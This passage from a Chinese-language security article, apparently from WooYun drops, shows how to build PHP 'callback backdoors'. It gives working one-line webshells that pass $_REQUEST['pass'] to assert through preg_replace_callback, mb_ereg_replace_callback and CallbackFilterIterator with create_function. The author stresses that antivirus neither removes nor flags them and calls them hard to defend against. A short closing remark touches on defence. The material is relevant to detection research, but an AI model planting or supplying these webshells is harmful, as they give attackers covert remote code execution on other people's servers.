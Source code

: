 '''preg_replace_callback'''的第二个参数是回调函数，但这个回调函数被传入的参数是一个数组，如果直接将这个指定为assert，就会执行不了，因为assert接受的参数是字符串。

所以我们需要去“构造”一个满足条件的回调函数。

怎么构造？使用create_function：

    preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'),$_REQUEST['pass']);

“创造”一个函数，它接受一个数组，并将数组的第一个元素$arr[0]传入assert。

这也是一个不杀不报稳定执行的回调后门，但因为有create_function这个敏感函数，所以看起来总是不太爽。不过也是没办法的事。 类似的，这个也同样：


    mb_ereg_replace_callback('.+', create_function('$arr', 'return assert($arr[0]);'),$_REQUEST['pass']);

再来一个利用CallbackFilterIterator方法的回调后门：

    $iterator = new CallbackFilterIterator(new ArrayIterator(array($_REQUEST['pass'],)), create_function('$a', 'assert($a);'));
    foreach ($iterator as $item) {
    echo $item;}

这里也是借用了create_function来创建回调函数。但有些同学就问了，这里创建的回调函数只有一个参数呀？实际上这里如果传入assert，是会报错的，具体原因自己分析。

0x09 后记

这一篇文章，就像一枚核武器，爆出了太多无特征的一句话后门。我知道相关厂商在看了文章以后，会有一些小动作。不过我既然敢写出来，那么我就敢保证这些方法是多么难以防御。

实际上，回调后门是灵活且无穷无尽的后门，只要php还在发展，那么就有很多很多拥有回调函数的后门被创造。想要防御这样的后门，光光去指哪防哪肯定是不够的。

简单想一下，只有我们去控制住assert、preg_replace这类函数，才有可能防住这种漏洞。

[link](http://drops.wooyun.org/tips/7279)
